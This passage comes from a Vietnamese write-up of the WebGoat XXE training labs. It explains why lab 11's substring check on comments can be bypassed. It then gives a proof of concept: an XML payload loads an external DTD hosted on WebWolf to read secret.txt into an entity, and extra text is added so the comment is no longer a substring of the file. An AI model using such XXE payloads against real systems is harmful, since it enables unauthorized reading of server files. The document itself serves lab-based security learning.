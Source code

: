 - Send request và bypass

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%203.png)

## Cách khắc phục

- Như của XXE 4

# XXE 11

## Nguyên nhân lỗi

- Nguyên nhân chính dẫn đến lỗi vẫn như 2 lab trên, tuy nhiên ở lab này có thêm logic để không hiển thị nội dung file cần đọc nếu như phát hiện “**nội dung của file cần đọc có chứa nội dung của comment”**
- Chính việc so sánh này dẫn đến việc hacker có thể chèn thêm một nội dung trong payload tấn công XXE để nó không là chuỗi con của file cần đọc và có thể bypass được logic này.

```java
Comment comment = comments.parseXml(commentStr);
if (fileContentsForUser.contains(comment.getText())) {
  comment.setText("Nice try, you need to send the file to WebWolf");
}
comments.addComment(comment, false);
```

## POC

- Tạo một file DTD có nội dung bên dưới và upload lên WebWolf để host. DTD này có nhiệm vụ là sẽ đọc nội dung file secret.txt và lưu trữ vào entity secret.

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%204.png)

- Bắt Request và injection payload XXE như bên dưới

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%205.png)

- Entity blindxxe được sử dụng để inject dtd ở phía trên đang được host ở WebWolf - Chính là nội dung file cần đọc đã được lưu trong entity `secret` .
- Lúc này chỉ cần chèn thêm một chuỗi bất kỳ để nội dung được gửi đến server sẽ không là chuỗi con của nội dung file `secret.txt`.

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY % blindxxe SYSTEM "http://localhost:9090/WebWolf/files/shr3wd/test4.dtd">
%blindxxe;
]>
<comment><text>secret &secret;</text></comment>
```

- Gửi request và reload lại trang để đọc được nội dung của file trong phần comment.
